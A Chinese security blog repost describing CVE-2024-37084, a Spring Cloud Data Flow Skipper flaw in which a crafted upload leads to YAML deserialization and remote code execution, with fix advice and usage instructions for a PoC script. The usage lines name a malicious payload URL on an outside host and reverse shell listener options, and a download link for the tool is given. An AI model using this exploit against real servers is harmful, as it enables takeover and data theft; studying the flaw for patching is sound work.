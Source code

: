 #  Spring Cloud Data Flow高危漏洞（CVE-2024-37084）   
XiaomingX  网络安全者   2024-11-25 16:00  
  
===================================  
免责声明请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。  
0x01 工具介绍  
CVE-2024-37084是Spring Cloud Data Flow中的一个高危漏洞，影响版本为2.11.0至2.11.3。该漏洞允许具有Skipper服务器API访问权限的攻击者通过精心构造的上传请求，将任意文件写入服务器文件系统的任意位置，进而可能导致远程代码执行，严重威胁服务器安全。  
0x02 安装与使用  
  
漏洞原理： 在受影响的Spring Cloud Data Flow版本中，Skipper服务器在处理文件上传时缺乏对路径的有效验证。攻击者可以利用这一缺陷，构造恶意的上传请求，将包含特定YAML文件的压缩包上传至服务器。由于服务器在处理这些YAML文件时，使用了不安全的反序列化机制，攻击者可以通过在YAML文件中嵌入恶意代码，导致服务器执行任意代码。  
  
危害： 成功利用该漏洞的攻击者可以在受影响的服务器上执行任意代码，可能导致以下后果：  
- 服务器被完全控制： 攻击者可获取服务器的最高权限，执行任意操作。  
  
- 数据泄露： 攻击者可能访问或窃取服务器上的敏感数据。  
  
- 服务中断： 攻击者可能破坏服务器的正常运行，导致服务不可用。  
  
修复建议： 官方已在2.11.4版本中修复了该漏洞。建议用户尽快将Spring Cloud Data Flow升级至2.11.4或更高版本，以消除安全隐患。  
  
本项目包括对 CVE-2024-37084 的环境配置、漏洞分析、演示利用和漏洞利用代码（PoC）。  
## 使用方法：  
```
python CVE-2024-37084-Poc.py
```  
##   
  
用法示例：  
```
python CVE-2024-37084-Poc.py --target_url <目标网址> --version <版本号> --payload_url <恶意载荷网址> [--listen_ip <监听IP>] [--listen_port <监听端口>]
```  
### 可选参数：  
```
-h, --help：显示帮助信息并退出
--target_url TARGET_URL：目标服务器的 URL（例如：http://目标_IP:端口/api/package/upload）
--version VERSION：包的版本号（例如：5.0.0）
--payload_url PAYLOAD_URL：恶意载荷的 URL（例如：https://too.lewd.se/yaml-payload.jar）
--listen_ip LISTEN_IP：监听反向 shell 的 IP 地址（默认值：0.0.0.0）
--listen_port LISTEN_PORT：监听反向 shell 的端口号（默认值：4444）
```  
## 配置监听端口以捕获反向 shell：  
##   
  
****  
**0x03 下载链接**  
  
1、通过阅读原文，到项目地址下载  
  
2、  
网盘下载  
链接  
：https://pan.quark.cn/s/80623768e319  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxyM4QFFOeUJ0DcGWRDR8WaIk6UgdaXQdVib3icjiaQxUqhFoFrMNhWwR2PhAsuTkmIboDTId5oicL6Ng/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
该内容转载自网络，仅供学习交流，勿作他用，如有侵权请联系删除。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxyM4QFFOeUJ0DcGWRDR8WaQvicu0B2KN7ucFV8ibR5S0OnmryIje3mkRuKhyBP1lPcAZFhKoU3iaLAQ/640?wx_fmt=png&from=appmsg "")  
  
  
